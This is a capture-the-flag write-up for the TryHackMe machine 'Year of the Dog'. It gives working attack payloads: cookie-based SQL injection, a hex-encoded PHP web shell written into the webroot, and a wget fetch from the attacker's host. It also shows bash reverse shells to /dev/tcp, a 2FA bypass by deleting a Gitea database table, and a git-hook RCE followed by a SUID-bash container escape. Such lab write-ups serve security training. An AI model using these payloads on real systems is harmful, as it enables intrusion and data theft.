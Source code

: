 ```yaml
---
title: "Year of the Dog"
date: 2023-07-15T16:08:57+05:30
draft: false
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```


Machine URL :: [Year of the Dog](https://tryhackme.com/room/yearofthedog)
## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```bash
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

{{< image src="/images/dog/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

I used gobuster for any hidden directories but got nothing.\
### SQL INJECTION
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

{{< image src="/images/dog/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


This confirms that SQLi is the way to go. UNION SELECT works.\
```sql
Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- - 
```
gives databse `webapp`

{{< image src="/images/dog/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

```sql
UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -
```
gives table `queue`

```sql
UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -
```
gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`
```sql
UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -
```
gives :\
{{< image src="/images/dog/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Using Command :
```sql
UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -
``` 
we got 1 user:
```plain-text
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```
As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.
```sql
UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -
``` 
Now if it works:

{{< image src="/images/dog/5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It works! \
## INITIAL EXPLOIT
Now to move in , save this : 
```bash
bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1
``` 
to a file and transfer it to the webserver using :
```plain-text
<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>
```
{{< image src="/images/dog/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

You should be in:

{{< image src="/images/dog/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

{{< image src="/images/dog/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## FOOTHOLD

{{< image src="/images/dog/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

{{< image src="/images/dog/18.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.\
Let's use SSH port forwarding and check out that port\
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

{{< image src="/images/dog/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Signing in as dylan we get a 2 factor authentication.

{{< image src="/images/dog/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

{{< image src="/images/dog/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's delete the `two_factor table` from `gitea.db`:

{{< image src="/images/dog/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And we're in:

{{< image src="/images/dog/14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## EXPLOITATION
Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.\
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.
In this hook , we can write a shell script that will get executed after getting a new commit.

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.\
Start a netcat listener, then on your local machine :
```bash
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

{{< image src="/images/dog/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

{{< image src="/images/dog/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Check the `/data/` directory as the files are usually mount to host.\

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.\
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

{{< image src="/images/dog/17.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Back at Dylan's: run `./bash -p` and you got root.

{{< image src="/images/dog/19.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}






 
 
 
 


